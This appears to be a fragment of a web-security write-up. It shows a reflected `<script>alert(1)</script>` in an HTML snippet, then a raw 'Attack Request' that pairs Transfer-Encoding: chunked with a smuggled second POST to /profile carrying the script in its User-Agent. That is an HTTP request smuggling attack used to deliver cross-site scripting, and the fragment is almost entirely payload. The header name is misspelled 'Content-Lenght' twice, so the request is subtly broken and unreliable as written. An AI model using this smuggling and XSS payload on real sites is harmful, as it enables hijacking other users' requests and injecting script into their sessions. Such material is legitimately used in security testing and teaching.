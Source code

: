 ```HTML
<p>
	<b>You're using:</b><script>alert(1)</script>
</p>
```
### Attack Request
```HTTP
POST / HTTP/1.1
Host: test.com
Content-Type: application/x-www-form-urlencoded
Content-Lenght: 162
Transfer-Encoding: chunked

0

POST /profile HTTP/1.1
Host: test.com
User-Agent: <script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Lenght: 8

u=person
```